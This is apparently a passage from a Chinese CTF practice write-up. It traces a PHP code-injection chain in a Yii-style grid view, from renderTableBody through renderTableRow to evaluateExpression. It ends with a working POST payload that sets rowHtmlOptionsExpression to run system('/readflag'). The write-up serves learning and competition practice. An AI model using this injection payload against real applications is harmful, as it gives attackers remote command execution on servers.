 ```php
            if(isset($htmlOptions['class']))
                $htmlOptions['class'].=' '.$class;
            else
                $htmlOptions['class']=$class;
        }
    }
    public function renderTableBody()
    {
        $data=$this->data;
        $n=count($data);
        echo "<tbody>\n";

        if($n>0)
        {
            for($row=0;$row<$n;++$row)
                $this->renderTableRow($row);
        }
        else
        {
            echo '<tr><td colspan="'.count($this->columns).'" class="empty">';

            echo "</td></tr>\n";
        }
        echo "</tbody>\n";
    }
```

`renderTableBody()`→`renderTableRow()`

`renderTableRow()`中进入`evaluateExpression()`且`$this->rowCssClassExpression`可控进行命令执行

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%2004%209316daae4b794d618031f78dc16ff69e/Untitled%203.png)

根目录下flag.txt为空，readflag为可执行文件

payload：

GET: /?action=TestView

POST:

properties[template]={TableBody}&properties[rowHtmlOptionsExpression]=var_dump(system('/readflag'));&properties[data][1]=1

### soeasy_php
